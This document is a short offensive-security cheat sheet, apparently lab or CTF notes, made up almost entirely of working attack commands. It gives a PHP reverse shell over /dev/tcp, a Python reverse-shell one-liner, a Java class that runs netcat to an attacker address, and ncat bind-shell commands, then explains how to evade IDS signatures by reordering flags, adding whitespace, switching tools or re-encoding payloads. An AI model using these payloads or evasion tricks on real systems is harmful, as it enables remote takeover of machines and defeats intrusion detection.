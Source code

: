 `>> python3 -c "import pty; pty.spawn('/bin/bash')"`  
`>> export TERM=xterm`

<?php exec("bash -i>/dev/tcp/10.9.9.67/1234 0>&1");?>

http://10.9.9.67/shell_rev.php

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.9.67",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

exploit.java
```shell-session
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

javac Exploit.java
```

## Blind Shell

victim_PC:`ncat -lvnp 1234 -e /bin/bash`

Attacker_Pc:  `ncat IP_Victim 1234`

### Modify the data

Consider the simple case where you want to use Ncat to create a bind shell. The following command `ncat -lvnp 1234 -e /bin/bash` tells `ncat` to listen on TCP port 1234 and bind Bash shell to it. If you want to detect packets containing such commands, you need to think of something specific to match the signature but not too specific.

-   Scanning for `ncat -lvnp` can be easily evaded by changing the order of the flags.
-   On the other hand, inspecting the payload for `ncat -` can be evaded by adding an extra white space, such as `ncat  -` which would still run correctly on the target system.
-   If the IDS is looking for `ncat`, then simple changes to the original command won’t evade detection. We need to consider more sophisticated approaches depending on the target system/application. One option would be to use a different command such as `nc` or `socat`. Alternatively, you can consider a different encoding if the target system can process it properly.